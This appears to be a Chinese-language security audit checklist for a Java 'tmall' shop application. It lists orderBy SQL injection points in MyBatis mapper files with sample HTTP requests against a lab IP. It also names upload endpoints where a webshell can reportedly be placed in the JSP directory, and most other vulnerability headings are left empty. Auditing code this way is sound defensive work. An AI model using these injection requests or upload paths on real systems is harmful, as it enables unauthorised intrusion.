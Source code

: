### SQL注入

#### mybatis

* ProductMapper.xml id=select orderBy注入，布尔、延时注入

```http
GET /tmall/admin/product/0/5?orderBy=rand%28%29 HTTP/1.1
Host: 192.168.110.146
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.110.146/tmall/admin
Cookie: JSESSIONID=4A3D8F96D0CA6FEAB9B831A8648946AB; username=admin
Upgrade-Insecure-Requests: 1


```

```http
GET /tmall/product/0/5?orderBy=rand%28%29 HTTP/1.1
Host: 192.168.110.146
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.110.146/tmall/admin
Cookie: JSESSIONID=4A3D8F96D0CA6FEAB9B831A8648946AB; username=admin
Upgrade-Insecure-Requests: 1


```

* ProductMapper.xml id=selectMoreList orderby注入，布尔、延时；ForeProductListController.java @RequestMapping(value = "product/{index}/{count}", method = RequestMethod.GET)
* ProductOrderMapper.xml id=select orderby注入，布尔注入、延时注入；ForeOrderController.java @RequestMapping(value = "admin/order/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=UTF-8")
* RewardMapper.xml id=select orderby注入，布尔、延时；RewardController.java @RequestMapping(value = "admin/reward/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=utf-8")
* UserMapper.xml id=select orderby注入，布尔、延时；UserController.java @RequestMapping(value = "admin/user/{index}/{count}", method = RequestMethod.GET, produces = "application/json;charset=UTF-8")

#### @Query等

* 无

### 任意文件下载、读取

* 无

### 任意文件上传

* 定位关键字 MultipartFile

```java
// 上传管理员头像，但是前段校验文件后缀，不能目录穿越但是文件上传到jsp目录，可以直接上传webshell
@RequestMapping(value = "admin/uploadAdminHeadImage", method = RequestMethod.POST, produces = "application/json;charset=UTF-8")
```

```java
// 基本同上
@RequestMapping(value = "admin/uploadCategoryImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
```

```java
// 基本同上
@RequestMapping(value = "admin/uploadProductImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
```

```java
// 前台用户上传头像
@RequestMapping(value = "user/uploadUserHeadImage", method = RequestMethod.POST, produces = "application/json;charset=utf-8")
```

### 模板注入

* 审计项目是将JSP作为模板使用的，暂未发现注入

### XSS

### REC

* Runtime
* Build

### SSRF

### SPEL表达式注入

### XXE注入

### 梳理鉴权逻辑，寻找未鉴权接口

### fortify扫描结果分析

#### 手动审计没有分析出的漏洞

#### 手动调整
